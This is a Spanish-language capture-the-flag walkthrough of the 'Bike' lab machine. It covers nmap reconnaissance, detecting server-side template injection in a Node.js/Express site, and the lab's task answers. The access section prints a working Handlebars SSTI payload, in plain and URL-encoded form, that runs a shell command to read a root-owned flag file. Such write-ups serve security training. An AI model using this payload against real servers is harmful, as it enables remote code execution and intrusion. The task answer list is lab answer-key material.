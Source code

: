# Bike

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Custom Applications (Aplicaciones Personalizadas):** Son aplicaciones desarrolladas específicamente para satisfacer necesidades particulares de una organización. A menudo, estas aplicaciones no se desarrollan siguiendo las mejores prácticas de seguridad, lo que puede dar lugar a vulnerabilidades. Dado que son personalizadas, pueden ser difíciles de mantener y auditar, lo que aumenta el riesgo de ser objetivo de un ataque si no se gestionan adecuadamente.
  * **NodeJS:** Es un entorno de ejecución para JavaScript en el servidor, ampliamente utilizado para construir aplicaciones web escalables y rápidas. Aunque es potente y flexible, si no se implementa correctamente o se usan dependencias inseguras, NodeJS puede ser vulnerable a ataques como la ejecución remota de código o la inyección de dependencias maliciosas.
  * **Reconnaissance (Reconocimiento):** Es una fase inicial crucial en el proceso de pruebas de penetración, en la que se recopila información sobre el objetivo. Esto incluye escaneo de puertos, identificación de servicios y posibles vulnerabilidades, y análisis de la infraestructura. El objetivo del reconocimiento es descubrir posibles puntos de entrada y explotar configuraciones incorrectas.
  * **Remote Code Execution (Ejecución Remota de Código):** Es una vulnerabilidad crítica que permite a un atacante ejecutar código malicioso en el sistema de la víctima de manera remota. Puede explotarse a través de diversos vectores como aplicaciones web, servicios mal configurados o vulnerabilidades en el software. La ejecución remota de código pone en peligro la integridad y la confidencialidad de los sistemas afectados.
  * **Server Side Template Injection (SSTI) (Inyección de Plantillas del Lado del Servidor):** Es una vulnerabilidad que ocurre cuando un atacante puede inyectar código malicioso en las plantillas del lado del servidor, lo que permite la ejecución de código en el servidor. Esta vulnerabilidad puede ser utilizada para ejecutar comandos del sistema operativo, robar datos o comprometer el servidor, especialmente si el sistema de plantillas no valida correctamente los datos introducidos por el usuario.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.97.64
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.97.64
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** correspondiente a **HTTP** están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 181725.png" alt=""><figcaption></figcaption></figure>

Vemos la información de la página.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 182158.png" alt=""><figcaption></figcaption></figure>

Ponemos `{{7*7}}` para ver si tenemos una vulnerabilidad SSTI.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copiamos el payload de Node.js.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html" %}

```bash
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

```

Codificamos el código en formato URL y lo pegamos en el campo email de la petición.

```bash
%77%72%74%7a%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%63%61%74%20%2f%72%6f%6f%74%2f%66%6c%61%67%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1:** ¿Qué puertos TCP identifica nmap como abiertos? Responde con una lista de puertos separados por comas y sin espacios, de menor a mayor.

* **22,80**

**Task 2:** ¿Qué software está ejecutando el servicio que escucha en el puerto HTTP/web identificado en la primera pregunta?

* **node.js**

**Task 3:** ¿Cuál es el nombre del marco web según Wappalyzer?

* **express**

**Task 4:** ¿Cuál es el nombre de la vulnerabilidad que probamos enviando \{{7\*7\}}?

* **Server Side Template Injection**

**Task 5:** ¿Cuál es el motor de plantillas que se está utilizando dentro de Node.js?

* **handlebars**

**Task 6:** ¿Cuál es el nombre de la pestaña de BurpSuite utilizada para codificar texto?

* **decoder**

**Task 7:** Para enviar caracteres especiales en nuestra carga útil en una solicitud HTTP, codificamos la carga útil. ¿Qué tipo de codificación usamos?

* **url**

**Task 8:** Cuando usamos una carga útil de HackTricks para intentar ejecutar comandos del sistema, obtenemos un error. ¿Qué es lo que "no está definido" en el error de respuesta?

* **require**

**Task 9:** ¿Qué variable es tradicionalmente el nombre del ámbito de nivel superior en el contexto del navegador, pero no en Node.js?

* **global**

**Task 10:** Al explotar esta vulnerabilidad, obtenemos ejecución de comandos como el usuario que ejecuta el servidor web. ¿Cuál es el nombre de ese usuario?

* **root**
